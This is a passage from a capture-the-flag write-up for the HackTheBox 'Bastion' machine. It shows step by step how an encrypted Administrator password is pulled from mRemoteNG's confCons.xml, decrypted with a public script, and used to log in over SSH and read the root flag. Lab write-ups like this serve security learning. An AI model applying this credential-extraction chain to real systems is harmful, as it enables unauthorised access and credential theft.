 Looking into the `Program Files` and `Program Files (x86)` directories we see one directory we didn't expect `mRemoteNG`. `mRemoteNG` is a remote management tool.

```bash
l4mpje@BASTION C:\Program Files (x86)\mRemoteNG>cd \Users\L4mpje\AppData\Roaming\mRemoteNG
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>cat confCons.xml
...
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
...
luc@kali:~/HTB/Bastion$ python mRemoteNG-Decrypt.py
usage: mRemoteNG-Decrypt.py [-h] [-f FILE | -s STRING] [-p PASSWORD]

Decrypt mRemoteNG passwords.

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  name of file containing mRemoteNG password
  -s STRING, --string STRING
                        base64 string of mRemoteNG password
  -p PASSWORD, --password PASSWORD
                        Custom password
luc@kali:~/HTB/Bastion$ python mRemoteNG-Decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

There is a [Python script](https://github.com/haseebT/mRemoteNG-Decrypt) available to decrypt mRemoteNG passwords. We confirm that this tool works because we get the credentials we already had.

```bash
luc@kali:~/HTB/Bastion$ ssh administrator@10.10.10.134
administrator@10.10.10.134's password: thXLHM96BeKL0ER2
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>cd Desktop
administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
958850b9************************
```

## TL;DR

- Backup available via guest SMB
- Got credentials from SAM & SYSTEM
- Admin credentials from mRemoteNG

